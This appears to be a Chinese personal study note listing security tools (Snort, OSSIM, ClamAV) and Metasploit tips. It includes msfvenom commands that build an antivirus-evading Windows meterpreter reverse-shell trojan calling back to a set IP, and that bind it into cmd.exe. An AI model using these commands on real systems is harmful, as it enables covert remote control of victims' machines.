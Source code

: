 # 生活技能

`后续补充`
snort , 
pfsense, 

#### ossim, 
```angular2html
OSSIM是SIEM的代表性产品，在产品形式上和Kali类似是一个基于Debain进行二次开发的Linux发行版，当前5.6.5版本基于Dibian 8（jessie）。

OSSIM使用Nmap等实现资产发现、使用Nessus等实现漏洞扫描、使用Snort等实现入侵检测、使用MySQL等进行数据存储，自己实现的部分主要是工具、数据整合和可视化展示。
```
### 下载地址
````angular2html
https://dlcdn.alienvault.com/AlienVault_OSSIM_64bits.iso
````
clamav, 
panabit, 
iscisi, 
freewaf, 
ningx


# Metasploit

### session
```angular2html
background 临时退出shell
```
### msfvenom

> 查看编辑器 `msfvenom --list encoders`
>
> 查看 `windows/meterpreter/reverse_tcp`支持的平台 `msfvenom -p windows/meterpreter/reverse_tcp --list-options`
>
> 查看所有payload `msfvenom --list payloads`
>
>还有 ` nops, platforms, archs, encrypt, formats`


#### msfvenom生成木马

```angular2html
生成免杀木马
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=10.2.7.130 lport=11206 -f exe > haya.exe

捆绑进cmd.exe，目前失败，程序无法执行
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai lhost=10.2.7.130 lport=11206 -b '\x00' -x cmd.exe -k -i 12 -f exe -o cmd1.exe
```
#### use + 载荷 ，快速载入脚本
```angular2html
2021-05-14编写
感谢lyh

使用search检索出相应的利用脚本后，两种方式加载载荷
1，use 载荷路径
2，use 载荷序号

```


> 乾坤未定，你我皆是黑马

